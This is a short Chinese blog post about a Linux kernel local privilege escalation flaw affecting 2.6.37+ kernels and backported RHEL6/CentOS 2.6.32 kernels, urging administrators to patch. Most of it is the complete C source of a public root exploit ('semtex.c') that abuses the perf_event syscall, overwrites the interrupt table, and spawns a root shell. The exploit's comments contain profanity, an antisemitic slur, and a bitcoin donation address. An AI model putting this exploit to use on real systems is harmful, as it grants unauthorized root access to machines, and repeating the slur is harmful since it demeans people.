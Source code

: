 ```yaml
---
layout: post
title: "Linux kernel本地提权漏洞修复"
description: ""
categories: [Technology]
tags: [Kernel,Linux]
---
```


Kernel中爆出一个重大的提权漏洞，kernel-2.6.37以上版本几乎都受到影响。由于Redhat会从高版本内核backport一些特性，因此RHEL6自带的2.6.32内核也受影响，同时CentOS、Oracle等基于RHEL的版本都受影响。

漏洞爆出后，Redhat及时更新了RHEL内核，CentOS等迅速跟进。如果你的服务器上用到这些版本内核，请尽快检查一下。

{% highlight c %}
/*
 * linux 2.6.37-3.x.x x86_64, ~100 LOC
 * gcc-4.6 -O2 semtex.c && ./a.out
 * 2010 sd@fucksheep.org, salut!
 *
 * update may 2013:
 * seems like centos 2.6.32 backported the perf bug, lol.
 * jewgold to 115T6jzGrVMgQ2Nt1Wnua7Ch1EuL9WXT2g if you insist.
 */

#define _GNU_SOURCE 1
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <syscall.h>
#include <stdint.h>
#include <assert.h>

#define BASE  0x380000000
#define SIZE  0x010000000
#define KSIZE  0x2000000
#define AB(x) ((uint64_t)((0xababababLL<<32)^((uint64_t)((x)*313337))))

void fuck() {
	int i,j,k;
	uint64_t uids[4] = { AB(2), AB(3), AB(4), AB(5) };
	uint8_t *current = *(uint8_t **)(((uint64_t)uids) & (-8192));
	uint64_t kbase = ((uint64_t)current)>>36;
	uint32_t *fixptr = (void*) AB(1);
	*fixptr = -1;

	for (i=0; i<4000; i+=4) {
		uint64_t *p = (void *)&current[i];
		uint32_t *t = (void*) p[0];
		if ((p[0] != p[1]) || ((p[0]>>36) != kbase)) continue;
		for (j=0; j<20; j++) { for (k = 0; k < 8; k++)
			if (((uint32_t*)uids)[k] != t[j+k]) goto next;
			for (i = 0; i < 8; i++) t[j+i] = 0;
			for (i = 0; i < 10; i++) t[j+9+i] = -1;
			return;
next:;		}
	}
}

void sheep(uint32_t off) {
	uint64_t buf[10] = { 0x4800000001,off,0,0,0,0x300 };
	int fd = syscall(298, buf, 0, -1, -1, 0);
	assert(!close(fd));
}


int	main() {
	uint64_t  u,g,needle, kbase, *p; uint8_t *code;
	uint32_t *map, j = 5;
	int i;
	struct {
		uint16_t limit;
		uint64_t addr;
	} __attribute__((packed)) idt;
	assert((map = mmap((void*)BASE, SIZE, 3, 0x32, 0,0)) == (void*)BASE);
	memset(map, 0, SIZE);
	sheep(-1); sheep(-2);
	for (i = 0; i < SIZE/4; i++) if (map[i]) {
		assert(map[i+1]);
		break;
	}
	assert(i<SIZE/4);
	asm ("sidt %0" : "=m" (idt));
	kbase = idt.addr & 0xff000000;
	u = getuid(); g = getgid();
	assert((code = (void*)mmap((void*)kbase, KSIZE, 7, 0x32, 0, 0)) == (void*)kbase);
	memset(code, 0x90, KSIZE); code += KSIZE-1024; memcpy(code, &fuck, 1024);
	memcpy(code-13,"\x0f\x01\xf8\xe8\5\0\0\0\x0f\x01\xf8\x48\xcf",
		printf("2.6.37-3.x x86_64\nsd@fucksheep.org 2010\n") % 27);
	setresuid(u,u,u); setresgid(g,g,g);
	while (j--) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
		if (!p) continue;
		*p = j?((g<<32)|u):(idt.addr + 0x48);
	}
	sheep(-i + (((idt.addr&0xffffffff)-0x80000000)/4) + 16);
	asm("int $0x4");	assert(!setuid(0));
	return execl("/bin/bash", "-sh", NULL);
}
{% endhighlight %}

*   [Local root vulnerability in the kernel](https://lwn.net/Articles/550678/)
*   semtex.c <s>http://fucksheep.org/~sd/warez/semtex.c</s>
